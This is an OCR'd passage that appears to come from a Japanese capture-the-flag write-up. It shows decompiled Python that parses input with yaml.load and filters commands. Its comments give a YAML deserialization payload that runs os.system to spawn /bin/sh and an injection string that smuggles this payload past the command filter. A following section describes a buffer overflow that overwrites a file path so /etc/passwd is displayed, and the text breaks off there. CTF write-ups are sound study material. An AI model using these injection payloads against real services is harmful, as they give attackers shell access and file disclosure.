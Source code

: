         def get_command(self, yamlstring):
            try:
                self.payload = yaml.load(yamlstring)
            except:
                self.payload = dict()
                return self.payload
     
            if self.payload['cmd'] not in self.allowed_commands:
                self.payload['errcmd'] = 'Blacklisted command %s' % self.payload['cmd']
                self.payload['cmd'] = '/bin/false'
            for c in self.payload['args']:
                if c not in self.goodchars:
                    self.payload['args'] = ''
                    self.payload['errarg'] = 'Found at least one blacklisted char!'
                    break
     
            return self.payload
    +++ okay decompyling modules/filter.pyc 
    # decompiled 1 files: 1 okay, 0 failed, 0 verify failed
    # 2013.12.28 11:59:16 JST
     
    """
    --------------------------------------------------------------------------------
     
    yaml.loadは任意の関数を実行できるので、
    --------------------------------------------------------------------------------
    >>> import yaml
    >>> yaml.load('!!python/object/apply:os.system ["/bin/sh"]')
    $ 
    --------------------------------------------------------------------------------
     
    /bin/ls ","cmd":!!python/object/apply:os.system ["/bin/sh"],"args":"
    を突っ込むとシェルが起動する
    """

### DOGE2

    #!/usr/bin/python
    """
    DOGE2の説明に必要なので、DOGE1の解説も書いておきます。
     
    DOGE1: 
    犬の名前読み込む処理にバッファがオーバーフローするバグがある。
    犬の名前の次に、犬の絵のパス(ascii_art_doge_color.txt\0)が格納されている。
    そこで、それを上書きすることで、任意のファイルを表示できる。
    /etc/passwdにflag。
     
    --------------------------------------------------------------------------------
    __pyx_v_4doge_namebuf:
     20b220 446f6765 00000000 00000000 00000000  Doge............
     20b230 00000000 00000000 00000000 00000000  ................
    __pyx_k_39:
     20b240 61736369 695f6172 745f646f 67655f63  ascii_art_doge_c
     20b250 6f6c6f72 2e747874 00737563 68207461  olor.txt.such ta
    --------------------------------------------------------------------------------
     